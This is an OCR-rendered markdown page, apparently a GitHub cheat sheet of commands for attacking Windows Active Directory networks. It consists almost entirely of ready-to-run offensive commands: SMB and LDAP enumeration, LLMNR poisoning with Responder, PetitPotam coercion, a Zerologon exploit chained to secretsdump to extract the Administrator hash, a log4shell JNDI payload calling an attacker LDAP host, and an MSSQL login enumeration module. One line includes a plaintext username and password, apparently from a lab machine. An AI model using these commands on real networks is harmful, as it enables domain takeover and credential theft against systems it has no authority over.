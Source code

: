 
## Scanning

```bash
cme smb <ip_range>
nmap -PN -sV --top-ports 50
```

## Find DC IP
```bash
nmcli dev show eth0 # show domain name & dns
nslookup -type=SRV _ldap._tcp.dc._msdcs.<domain>
nslookup -type=srv _kerberos._tcp.<domain>
```

## Shares
```bash
cme smb <ip> -u '' -p '' # enumerate null session
cme smb <ip> -u 'a' -p '' # enumerate anonymous access
cme smb 192.168.1.0/24 --gen-relay-list relaylistOutputFilename.txt # scan for SMB signing not required
```

## Ldap
```bash
nmap -n -sV --script "ldap* and not brute" -p 389 <dc-ip>
ldapsearch -x -h <ip> -s base  
crackmapexec ldap 10.10.11.181 -u d.klay -p 'Darkmoonsky248girl' -k --users

```
## Poisoning
```bash
# LLMNR
responder -I eth0 (use --lm to force lm downgrade) # disable smb & http if relay 
```
## Coerce
```bash
PetitPotam.py  -d <domain> <listener_ip> <target_ip>
```

# Low Hanging Fruits

## Zerologon
```bash
zerologon-scan '<dc_netbios_name>' '<ip>'
python3 cve-2020-1472-exploit.py <MACHINE_BIOS_NAME> <ip>
secretsdump.py <DOMAIN>/<MACHINE_BIOS_NAME>\$@<IP> -no-pass -just-dc-user "Administrator" 
secretsdump.py -hashes :<HASH_admin> <DOMAIN>/Administrator@<IP>
```
## log4shell
```bash
${jndi:ldap://<ip>:<port>/o=reference}
```
## mssql credentials
```bash
use admin/mssql/mssql_enum_sql_logins
```

